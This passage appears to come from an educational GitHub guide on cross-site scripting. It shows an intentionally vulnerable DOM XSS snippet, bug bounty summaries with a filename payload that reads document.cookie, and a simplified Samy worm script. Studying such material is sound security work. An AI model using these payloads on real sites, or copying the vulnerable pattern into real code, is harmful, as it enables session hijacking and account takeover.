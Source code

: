 ```html
    ?>
    
    <!-- DOM XSS -->
    <h2>Welcome Message</h2>
    <script>
        var name = new URLSearchParams(window.location.search).get('name');
        if (name) {
            document.write('Welcome ' + name + '!');
        }
    </script>
</body>
</html>
```

## 🌍 Real-World Examples

### 1. 💰 High-Value Bug Bounty Reports

#### Facebook Stored XSS ($15,000)
- **Vulnerability**: Stored XSS in Facebook Pages
- **Vector**: Image upload with malicious filename
- **Impact**: Account takeover for page administrators
- **Payload**: `"><script>alert(document.cookie)</script>.jpg`
- **Key Learning**: File upload fields are often overlooked

#### Google Reflected XSS ($7,500)
- **Vulnerability**: XSS in Google Search results
- **Vector**: Malformed search query with special characters
- **Impact**: Session hijacking and credential theft
- **Technique**: URL encoding bypass
- **Key Learning**: Even simple reflections can be valuable

#### Twitter DOM XSS ($5,000)
- **Vulnerability**: DOM XSS in Twitter's mobile interface
- **Vector**: Malicious hashtag processing
- **Impact**: Tweet on behalf of victims
- **Technique**: PostMessage exploitation
- **Key Learning**: Mobile interfaces often have different security controls

### 2. 🏢 Enterprise Breaches

#### Samy Worm (MySpace, 2005)
```javascript
// Simplified version of the Samy worm
var xmlHttp = new XMLHttpRequest();
xmlHttp.open('POST', '/index.cfm?fuseaction=user.viewProfile', true);
xmlHttp.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xmlHttp.send('friendID=11851658&submit=Add to Friends');

// Self-replication
var div = document.createElement('div');
div.innerHTML = 'but most of all, samy is my hero';
document.body.appendChild(div);
```

